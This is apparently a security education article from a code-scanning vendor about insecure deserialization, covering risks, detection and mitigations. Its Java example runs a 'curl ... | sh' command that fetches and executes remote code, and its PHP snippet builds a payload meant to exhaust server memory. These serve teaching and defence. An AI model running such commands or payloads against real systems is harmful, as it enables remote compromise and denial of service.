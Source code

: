 ```yaml
---
title: Insecure Deserialization
description: Learn about Insecure Deserialization vulnerabilities
hide_title: false
displayed_sidebar: learnSidebar
slug: /learn/vulnerabilities/insecure-deserialization
---
```


# Insecure Deserialization

A single line of code that looks like it just restores state can instead grant remote access to your server. Deserialization vulnerabilities are easy to overlook, and also easy to exploit.

If your application takes serialized data from a file, a cookie, or a network request, and restores it into an object, then you're potentially at risk. Insecure deserialization lets attackers provide specially crafted data that executes code, reads files, or causes the application to crash.

Deserialization was designed to reconstruct complex objects, but when used on untrusted input, it can reconstruct more than just data.

In this article, we explain what serialization and deserialization are and why these features exist. Then we walk through common attack techniques and show what insecure deserialization looks like in code. Finally, we give you clear guidance to reduce your exposure and detect these issues early.



## What Is Serialization?

Serialization is the process of turning objects into a stream of bytes or text so they can be stored or sent over the network. Deserialization is the reverse: converting that stream back into usable objects.

This is a practical solution to a common problem. Developers need a way to store session data, share structured objects between services, or persist application state across runs.

Most programming languages include built-in or standard libraries for serialization. These libraries often support complex types, not just simple data. Some even let developers define how the serialization process works. This power is useful… but risky.

The danger arises when these libraries are used to deserialize data that comes from outside the application, such as HTTP request bodies or uploaded files. Many deserialization functions do more than just reconstruct data. They may call constructors, restore method references, or trigger custom behavior. This means that malicious input can trigger unexpected code execution.


## How Insecure Deserialization Gets Exploited

When a deserialization function instantiates objects, it may invoke code as part of that process. If an attacker controls the input, they can choose what classes get instantiated and which methods are run. This commonly is escalated into remote code execution, or denial of service.

### Remote Code Execution (RCE)

In Java, for instance, objects can implement the `readObject` method, which is called automatically during deserialization. A payload that includes such an object can execute code when loaded:

```java
public class Exploit implements Serializable {
    private void readObject(ObjectInputStream in) throws Exception {
        Runtime.getRuntime().exec("curl http://semgrep.dev/attack.sh | sh");
    }
}
```

If this class is included in a serialized stream, any system that deserializes it will run the payload.

This type of attack has been used in the wild against systems that deserialize input from cookies, form data, or APIs. The impact is often full system compromise.

### Denial of Service (DoS)

Some deserialization libraries allow deeply nested or complex object graphs. An attacker can craft a payload that consumes excessive memory or CPU when deserialized.

In PHP, using the `unserialize` function on input like this can crash the server:

```php
$a = 'a:10000:{';
for ($i = 0; $i < 10000; $i++) {
    $a .= "i:$i;s:10000:\"".str_repeat("A", 10000)."\";";
}
$a .= '}';
```

This results in exponential memory usage and can exhaust system resources.


## How To Detect Insecure Deserialization in Code

Let’s look at an example in a web application server. The code receives a POST request, extracts data, and deserializes it to handle a business object:

```java
ObjectInputStream in = new ObjectInputStream(request.getInputStream());
Object data = in.readObject();
```

Here, `readObject()` reconstructs a full object graph from input the user controls. If any class in scope has custom deserialization behavior, it might be triggered automatically.

This is the core pattern of insecure deserialization:

- Untrusted input (e.g., from a network request or file upload)
- Flows into a deserialization function (e.g., `readObject`, `unserialize`, `pickle.load`)
- Without validation, filtering, or integrity checking

To find these patterns, you need to trace the flow of data from input to sink.

Semgrep makes this easier. It tracks taint flow from user-controlled input (like `request.getInputStream()` or `$_POST`) into sensitive functions. If it detects that a deserialization method receives untrusted data, it raises an alert. Semgrep supports multiple languages and includes rules for common deserialization functions. It focuses on cases where the deserialization function is reachable by untrusted input.


## How To Reduce Your Risk

The most effective way to prevent insecure deserialization is to avoid deserializing untrusted input entirely. If you must deserialize user-controlled data, take the following steps:

**1. Use safer formats**

Prefer simple data formats like JSON or YAML (with safe loading). These formats reconstruct primitive types like strings, arrays, and dictionaries.

**2. Validate input structure**

If you must deserialize, apply strict validation first. Check the input against a schema or known allowlist of expected fields before processing.

**3. Require digital signatures**

Signed tokens ensure that serialized data cannot be altered without detection. This helps secure session data or configuration blobs sent by the client.

**4. Disable unsafe features**

Some libraries let you configure safe modes. For example, in Python use `yaml.safe_load()` instead of `yaml.load()`. In Java, use deserialization filters to restrict what classes can be loaded.

**5. Review third-party dependencies**

Some libraries store internal state using deserialization under the hood. Ensure that these are not exposed to untrusted input and check for any known CVEs related to insecure deserialization.

**6. Use automated tools**

Semgrep can detect deserialization risks in your code and in libraries you use. Run it as part of your development process to catch problems early.


## Conclusion

Insecure deserialization happens when applications trust input that was never meant to be trusted. The feature was designed to restore objects. But when misused, they allow attackers to take full control of the system.

A single deserialization call might look harmless, but as we've seen, it can open the door to far more than just data. By understanding the risks, choosing safer alternatives, and using tools like Semgrep to catch unsafe patterns early, you can keep this powerful feature from becoming a security liability.
